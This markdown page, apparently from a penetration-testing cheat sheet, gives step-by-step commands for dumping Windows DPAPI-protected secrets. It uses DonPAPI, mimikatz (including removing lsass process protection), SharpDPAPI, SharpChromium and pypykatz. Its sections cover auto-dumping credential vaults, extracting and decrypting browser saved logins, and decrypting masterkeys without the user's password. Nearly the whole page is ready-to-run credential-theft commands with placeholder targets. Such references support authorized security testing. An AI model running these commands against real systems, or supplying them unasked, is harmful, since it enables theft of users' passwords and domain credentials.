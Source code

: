 ```yaml
---
title: "DPAPI"
date: 2024-7-31
tags: ["DPAPI", "enum", "Windows", "password", "credentials", "DonPAPI"]
---
```


### Abuse #1: Auto dump (From Linux)

{{< tab set1 tab1 active >}}Linux{{< /tab >}}
{{< tabcontent set1 tab1 >}}

<div>

```console
DonPAPI collect -d <DOMAIN> -u <USERNAME> -p '<PASSWORD>' -t <TARGET>
```

<small>*Ref: [DonPAPI](https://github.com/login-securite/DonPAPI)*</small>

</div>

{{< /tabcontent >}}

### Abuse #1: Auto dump (From Windows)

{{< tab set2 tab1 active >}}mimikatz{{< /tab >}}
{{< tab set2 tab2 >}}SharpDPAPI{{< /tab >}}
{{< tabcontent set2 tab1 >}}

#### 1. Info Gathering

<div>

```console
cmd /c "dir /S /AS C:\Users\<TARGET_UESR>\AppData\Local\Microsoft\Vault & dir /S /AS C:\Users\<TARGET_UESR>\AppData\Local\Microsoft\Credentials & dir /S /AS C:\Users\<TARGET_UESR>\AppData\Local\Microsoft\Protect & dir /S /AS C:\Users\<TARGET_UESR>\AppData\Roaming\Microsoft\Vault & dir /S /AS C:\Users\<TARGET_UESR>\AppData\Roaming\Microsoft\Credentials & dir /S /AS C:\Users\<TARGET_UESR>\AppData\Roaming\Microsoft\Protect"
```

</div>

#### 2. Secrets Dump

<div>

```console
mimikatz.exe "token::elevate" "!+" "!processprotect /process:lsass.exe /remove" "dpapi::cred /in:C:\Users\<TARGET_UESR>\AppData\Roaming\Microsoft\Credentials\<CREDENTIALS_HASH>"' '"dpapi::masterkey /in:C:\Users\<TARGET_UESR>\AppData\Roaming\Microsoft\Protect\<SID>\<PROTECT_HASH> /sid:<SID> /password:<PASSWORD> /protected"' '"dpapi::cred /in:C:\Users\<TARGET_UESR>\AppData\Roaming\Microsoft\Credentials\<CREDENTIALS_HASH>"' "exit"
```

</div>

{{< /tabcontent >}}
{{< tabcontent set2 tab2 >}}

<div>

```console
# Run as system
.\SharpDPAPI.exe machinetriage
```

```console
# Run as user
.\SharpDPAPI.exe credentials /password:'<PASSWORD>'
```

</div>

{{< /tabcontent >}}

<br>

---

### Abuse #2: Browser Saved Creds

{{< tab set3 tab1 active >}}Auto{{< /tab >}}
{{< tab set3 tab2 >}}Manual{{< /tab >}}
{{< tabcontent set3 tab1 >}}

<div>

```console
.\SharpChromium.exe logins
```

</div>

<small>*Ref: [SharpChromium.exe](https://github.com/Flangvik/SharpCollection/blob/master/NetFramework_4.5_Any/SharpChromium.exe)*</small>

{{< /tabcontent >}}
{{< tabcontent set3 tab2 >}}

#### 1. Prepare logindata and localstate file

<div>

```console
# Get Local State json file, copy and paste to local Linux
type "C:\Users\<USER>\appdata\local\microsoft\edge\User Data\Local State"
```

```console
# Get Login Data binary file
certutil -encode "C:\Users\<USER>\appdata\local\microsoft\edge\User Data\Default\Login Data" C:\ProgramData\logindata
```

```console
# Copy and paste to local Linux
type C:\ProgramData\logindata
```

```console
# Base64 decode
cat logindata_b64 | base64 -d > logindata
```

```console
# Extract key from local state
cat localstate | jq -r .os_crypt.encrypted_key | base64 -d | cut -c6- > blob
```

</div>

<div>

```console
# Get masterkey_guid
pypykatz dpapi describe blob blob
```

</div>

<small>*Ref: [pypykatz](https://github.com/skelsec/pypykatz)*</small>

#### 2. Retrieve Keys

<div>

```console
# Get master key
certutil -encode "C:\Users\<USER>\AppData\Roaming\Microsoft\Protect\<SID>\<MASTERKEY_GUID>" C:\ProgramData\<MASTERKEY_GUID>
```

```console
# Copy and paste to local Linux
type C:\ProgramData\<MASTERKEY_GUID>
```

```console
# Base64 decode
cat masterkey_guid_b64 | base64 -d > masterkey_guid
```

</div>

#### 3. Decrypt

<div>

```console
pypykatz dpapi prekey password <SID> <USER_PASSWORD> | tee pkf
```

```console
pypykatz dpapi masterkey <MASTERKEY_GUID_FILE> pkf -o mkf
```

```console
pypykatz dpapi chrome --logindata logindata mkf localstate
```

</div>

{{< /tabcontent >}}

<br>

---

### Abuse #3: Decrpyt Masterkey without password

{{< tab set4 tab1 active >}}Windows{{< /tab >}}
{{< tabcontent set4 tab1 >}}

<div>

```console
# Take note: Last key
.\mimikatz.exe "dpapi::masterkey /in:C:\users\<USER>\appdata\roaming\microsoft\protect\<SID>\<MASTERKEY_GUID> /rpc" exit
```

```console
# Decrypt
.\mimikatz.exe "dpapi::cred /in:C:\users\<USER>\appdata\roaming\microsoft\protect\<SID>\<MASTERKEY_GUID> /masterkey:<KEY>" exit
```

</div>

{{< /tabcontent >}}

<br>
